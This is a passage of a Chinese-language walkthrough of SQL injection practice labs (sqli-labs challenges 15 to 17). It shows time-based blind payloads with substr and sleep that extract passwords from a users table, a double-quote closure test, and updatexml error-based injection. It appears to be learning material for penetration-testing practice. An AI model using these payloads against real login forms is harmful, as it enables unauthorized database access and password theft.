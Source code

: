 ![image](https://user-images.githubusercontent.com/76896357/114983249-f4a17c80-9ec2-11eb-9e7b-5fcc41552187.png)

查到password列

![image](https://user-images.githubusercontent.com/76896357/114983399-287ca200-9ec3-11eb-8f8a-7b4b1c61e3c5.png)

利用substr函数切割进行查询，还是很快的

* 查字段
```
uname=admin' and if(substr((select password from security.users limit 4,1),§1§,1)='§s§',sleep(5),1)#&passwd=&submit=Submit
```
![image](https://user-images.githubusercontent.com/76896357/114983971-cec8a780-9ec3-11eb-99f8-79e51f9d9d76.png)

## 16. 双引号延时注入

现在本页面看看，是什么样的类型注入，以及他的闭合方式，发现啥也不显示。。。。。。

完犊子了，又是延时，吐了，看一下，闭合方式吧

差点没试出来
```
admin") and if(1=1,sleep(3),1) #
```
![image](https://user-images.githubusercontent.com/76896357/114986199-4a2b5880-9ec6-11eb-8f82-4eaee69b0140.png)

剩下的就是类似15题吧


## 17. 基于错误的更新查询

**这种情况，一下子给我整懵了，最后就参考别人博客写了一下**

https://blog.csdn.net/qq_41420747/article/details/81836327

那么就针对password搞一下吧

* 查找闭合方式

![image](https://user-images.githubusercontent.com/76896357/114987969-5fa18200-9ec8-11eb-88cd-6a4d73a01074.png)

* 由于报错，那么执行一下报错注入吧

* 查库
```
uname=admin&passwd=admin' and updatexml(1,concat('^',database(),'^'),1) #&submit=Submit
```

![image](https://user-images.githubusercontent.com/76896357/114988290-be66fb80-9ec8-11eb-9e62-a09e39a637f3.png)


额。。。说实话这道题kennel是我的原因，报出来的全是admin，还是看上面的博客吧

## 18. 用户代理头部注入
